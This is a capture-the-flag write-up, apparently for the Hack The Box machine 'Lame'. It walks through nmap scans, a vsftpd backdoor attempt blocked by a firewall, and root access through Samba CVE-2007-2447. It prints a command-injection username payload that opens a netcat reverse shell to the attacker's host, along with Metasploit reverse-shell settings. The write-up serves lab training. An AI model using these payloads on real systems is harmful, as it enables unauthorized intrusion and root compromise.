 ## 🧠 HTB: Lame [Done](Done)

---

### 📦 Box Info

- **Name:** Lame
- **Release Date:** 14 Mar 2017
- **OS:** [Linux](Linux)
- **Difficulty:** Easy [20 pts]
- **Creator:** ch4p

---

## 🔎 Recon

```bash
nmap -sT -p- --min-rate 10000 -oA scans/alltcp 10.10.10.3
nmap -sU -p- --min-rate 10000 -oA scans/alludp 10.10.10.3
nmap -p 21,22,139,445,3632 -sV -sC -oA scans/tcpscripts 10.10.10.3
```

**Services Found:**

- [FTP](FTP) (vsftpd 2.3.4)
- [SSH](SSH)
- [Samba](SMB)
- distcc

---

## 📂 FTP (Port 21)

- Anonymous login **allowed** ✅
    
- Version: `vsftpd 2.3.4`
    
- [Exploit found](https://www.exploit-db.com/exploits/17491): **Backdoor Command Execution**
    

Tested both manually and via [Metasploit](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/), but no shell — likely **firewalled** 🔒.

---

## 🗂️ SMB (Port 445)

```bash
smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
```

- Accessible share: `tmp` (mapped to /tmp)
    
- [Exploit](https://www.exploit-db.com/exploits/16320): **CVE-2007-2447** (Username map script)
    

### 🧪 Manual Exploit:

```
nc -lvnp 443
```

```bash
smbclient //10.10.10.3/tmp
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
```

## 🧙 Shell Cleanup

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

🔥 Got root shell! `uid=0(root)`

---

## 🛠️ Metasploit Exploitation

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST <your_ip>
set LPORT 443
set payload cmd/unix/reverse
run
```

📟 Reverse shell opened with root privileges.

---

## 🧨 VSFTPD Backdoor Analysis (Beyond Root)

- Trigger **backdoor** via username `USER backdoor:)`
    
- Opens port 6200, but **blocked externally** by a firewall
    
- Confirmed via internal test with netcat from the box itself
    

```bash
nc 127.0.0.1 6200  # Success!
```

✅ Backdoor functional **internally**, not from HTB network

---

## 🏁 Flags

```bash
cat /home/makis/user.txt
cat /root/root.txt
```

---

## 📎 Summary

- ✅ [VSFTPD](https://chatgpt.com/c/ftp): Backdoor blocked by firewall
- ✅ [Samba](https://chatgpt.com/c/smb): CVE-2007-2447 yields **instant root shell**
- ✅ [Metasploit](https://metasploit.help.rapid7.com/docs): Supported but not required
- ✅ [Manual exploitation](https://www.exploit-db.com/exploits/16320): Viable and educational

🎉 Rooted HTB: Lame — Classic, simple, and a good OSCP prep box!

---

📬 Created by [0xdf](https://0xdf.gitlab.io/) ☕

🧠 Happy hacking!